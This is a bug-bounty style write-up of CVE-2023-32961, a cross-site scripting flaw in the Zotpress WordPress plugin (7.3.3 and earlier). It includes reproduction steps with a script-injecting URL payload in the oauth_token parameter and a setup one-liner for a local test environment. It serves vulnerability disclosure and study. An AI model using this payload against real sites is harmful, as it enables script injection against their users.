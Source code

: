 ```yaml
---
layout: post
date: 2023-05-16
title: "CVE-2023-32961 Analysis"
tags: [webhacking, ]
categories: [bugbounty, WordPress, ]
---
```



## Component details


---


### Component name


Zotpress


### Vulnerable version


≤ 7.3.3


### Component slug


zotpress


### Component link


[https://wordpress.org/plugins/zotpress/](https://wordpress.org/plugins/zotpress/)


## Pre-requisite


---


Unauthenticated


## Vulenerability details


---


### Short description


`get_request_token` function in `zotpress/lib/admin/admin.accounts.oauth.php` is vulnerable to a XSS attack.


### How to reproduce (PoC)

1. Install the oauth php extension to trigger the vulnerability. (This is Zotpress's optional)
2. Login to [zotero.org](http://zotero.org/)
3. Conditions must be met for the `get_request_token` function to execute. (first time only)
Send a payload like this: `http://localhost:8080/wp-content/plugins/zotpress/lib/admin/admin.accounts.oauth.php?return_uri=http://localhost:8080&oauth_token=1`
4. Send a below payload
`http://localhost:8080/wp-content/plugins/zotpress/lib/admin/admin.accounts.oauth.php?return_uri=http://localhost:8080&oauth_token="><script>alert(1)</script>`

### Additional information

- You need a [zotero.org](http://zotero.org/) account.
- You need to set the oauthState value to 1 to trigger it. If the above payload doesn't work, you need to find a way to set oauthState to 1.
	- conditional expression :

		
{% raw %}
```php
		$_GET['oauth_token'] != $state['request_token_info']['oauth_token']
		
```
{% endraw %}


- Easy to install php oauth extension:
	- One Line Command :

		
{% raw %}
```shell
		sudo su; apt-get update; apt-get -y install gcc make autoconf libc-dev pkg-config libpcre3-dev; pecl install oauth; bash -c "echo extension=oauth.so > $PHP_INI_DIR/conf.d/oauth.ini"; service apache2 restart
		
```
{% endraw %}


- Tested in wordpress:latest Docker image.

### PoC Video


{% include embed/youtube.html id='5kZ7bNbs_-Q' %}


## References


---


[CVE-2023-32961](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-32961)

